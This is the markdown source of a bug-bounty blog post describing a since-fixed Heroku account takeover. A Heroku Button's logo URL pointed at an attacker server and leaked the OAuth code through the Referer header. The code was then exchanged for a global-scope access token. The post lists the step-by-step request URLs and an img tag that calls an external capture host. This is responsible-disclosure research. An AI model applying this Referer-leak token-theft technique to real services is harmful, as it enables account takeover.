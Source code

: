 ```yaml
---
layout: post
title: "Taking over Heroku accounts"
---
```


_This is the first time I'm proud of a vulnerability I find._

> Prior to publishing this blog post, the team at Heroku fixed the vulnerability on 5/26, and it is no longer exploitable.

Context
======
<a href="https://www.heroku.com/" target="_blank">Heroku</a> has a feature called <a href="https://elements.heroku.com/buttons" target="_blank">Buttons</a>, which "let you one-click provision, configure and deploy third party components, libraries and pattern apps".
You can notice the button on Github like here: <a href="https://github.com/ParsePlatform/parse-server-example" target="_blank">https://github.com/ParsePlatform/parse-server-example</a>. In this case, when you click on <img src="https://www.herokucdn.com/deploy/button.svg" height="20">, you are redirected to <a href="https://dashboard.heroku.com/new?button-url=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example" target="_blank">https://dashboard.heroku.com/new?button-url=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example</a>.

Anyone can create a Button: <a href="https://devcenter.heroku.com/articles/heroku-button" target="_blank">https://devcenter.heroku.com/articles/heroku-button</a>. 

I created a Button <a href="https://github.com/esevece/heroku_test" target="_blank">https://github.com/esevece/heroku_test</a> that only includes the required file `app.json`. Because `app.json` is the file from where Heroku gets the information about the Button.

I tried injecting HTML attributes and tags in `app.json` to achieve XSS, but the special characters are being escaped in the client side (if you can do it, <a href="https://bugcrowd.com/heroku" target="_blank">report it!</a>). However, I noticed that I can set the URL of the `"logo"` to any value. This URL is used as the `src` of an `<img>` created when _https://dashboard.heroku.com/new_ is loaded.

When using `<img>`s the `Referer` header is sent with the URL that requested the image as the value, which allows the "image" to capture this URL in the server-side. I was only able to capture the `Referer` from a different domain using Firefox, Safari, Internet Explorer and Edge, but not using Chrome.

_More ways to leak HTTP requests: <a href="https://github.com/cure53/HTTPLeaks" target="_blank">https://github.com/cure53/HTTPLeaks</a>._

Vulnerability
======
What I had until now was that when I load <a href="https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&other_parameter=with_value" target="_blank">https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&other_parameter=with_value</a>, `<img src="https://avatars0.githubusercontent.com/u/1294580?v=3&amp;s=200" class="">` is created and the browser makes a request to <a href="https://avatars0.githubusercontent.com/u/1294580?v=3&amp;s=200" target="_blank">https://avatars0.githubusercontent.com/u/1294580?v=3&s=200</a> with the header `Referer: https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&other_parameter=with_value`. But I didn't have any critical parameter+value in the URL. 

I played with <a href="https://devcenter.heroku.com/articles/oauth" target="_blank">OAuth</a> and the applications owned by Heroku, with the intention to point the __redirect_uri__ to _https://dashboard.heroku.com/new?template=..._ -- where I could leak the `Referer` -- without success.

I don't remember when, but I noticed that a parameter __code__ is added to _https://dashboard.heroku.com/[path_requested]_ after authentication. The value of this parameter is sent to an endpoint which doesn't have <a href="https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)" target="_blank">CSRF</a> protection and returns a JSON response including an `"access_token"` with "global" scope. This "global" scope allows you to do anything with the account using the <a href="https://api.heroku.com" target="_blank">API</a>! However I couldn't change the password or the email of the account, until... [to be continued :smile:]

Attack
======
Only worked if the user was already authenticated.

1. Send user to

        https://longboard.heroku.com/login?state=https%3A%2F%2Fdashboard.heroku.com%2Fnew%3Ftemplate%3Dhttps%253A%252F%252Fgithub.com%252Fesevece%252Fheroku_test

    ![1]({{ "/screenshots/2016-06-01-1.png" | prepend: site.baseurl | prepend: site.url }})

2. User is redirected to 

        https://id.heroku.com/oauth/autorize?client_id=....
    
    ![2]({{ "/screenshots/2016-06-01-2.png" | prepend: site.baseurl | prepend: site.url }})
    ![3]({{ "/screenshots/2016-06-01-3.png" | prepend: site.baseurl | prepend: site.url }})

3. User is redirected to

        https://longboard.heroku.com/auth/heroku/callback?code=....

    ![4]({{ "/screenshots/2016-06-01-4.png" | prepend: site.baseurl | prepend: site.url }})
    ![5]({{ "/screenshots/2016-06-01-5.png" | prepend: site.baseurl | prepend: site.url }})

4. And finally, the user is redirected to

        https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2Fesevece%2Fheroku_test&code=...

    ![6]({{ "/screenshots/2016-06-01-6.png" | prepend: site.baseurl | prepend: site.url }})
    ![7]({{ "/screenshots/2016-06-01-7.png" | prepend: site.baseurl | prepend: site.url }})

5. Once the page loads, a request is made to the Github API to get the file __app.json__

        https://api.github.com/repos/esevece/heroku_test/contents/app.json?ref=master

    ![8]({{ "/screenshots/2016-06-01-8.png" | prepend: site.baseurl | prepend: site.url }})
    ![9]({{ "/screenshots/2016-06-01-9.png" | prepend: site.baseurl | prepend: site.url }})

6. The `<img src="https://u00f1.xyz/heroku/poc.php">` is created and the "image" is loaded, sending the __code__ in the `Referer`
    ![10]({{ "/screenshots/2016-06-01-10.png" | prepend: site.baseurl | prepend: site.url }})

7. My file <a href="https://github.com/esevece/esevece.github.io/blob/master/code/2016-06-01-poc.php" target="_blank">poc.php</a> captures the `Referer`, extracts the __code__ and makes a POST request to 

        https://longboard.heroku.com/login/token

    with the value of the parameter __password__ set to the value of __code__
    ![11]({{ "/screenshots/2016-06-01-11.png" | prepend: site.baseurl | prepend: site.url }})

8. <a href="https://github.com/esevece/esevece.github.io/blob/master/code/2016-06-01-poc.php" target="_blank">poc.php</a> takes the `"access_token"` from the last response and makes a GET request to 

        https://api.heroku.com/account

    with the header `Authorization:` set to `Bearer [the_access_token]`
    ![12]({{ "/screenshots/2016-06-01-12.png" | prepend: site.baseurl | prepend: site.url }})

9. <a href="https://github.com/esevece/esevece.github.io/blob/master/code/2016-06-01-poc.php" target="_blank">poc.php</a> takes the `"email"` from the last response and sends an email to the address
    ![13]({{ "/screenshots/2016-06-01-13.png" | prepend: site.baseurl | prepend: site.url }})

Art Attack
======
After reporting the vulnerability to Heroku, <a href="https://twitter.com/ITSecurityguard" target="_blank">Patrik</a> from <a href="https://bugcrowd.com/" target="_blank">Bugcrowd</a> asked me to do whatever I could with his Heroku account. So, I started to look at what I could do and noticed that I couldn't change the email or password of his account. 

I kept looking for ways to really take over his account, until I decided to try to use his __access_token__ (that I had taken using the attack) as his password, and it worked! So, I changed his email.

Thanks
======
To <a href="https://www.heroku.com/" target="_blank">Heroku</a> for allow me to write about this vulnerability. 
To <a href="https://twitter.com/ITSecurityguard" target="_blank">Patrik</a> for push me to do something really bad with the bug.

_If something is not correct or well explained, let me know. Maybe is because of my ignorance, my poor English or because I missed something._
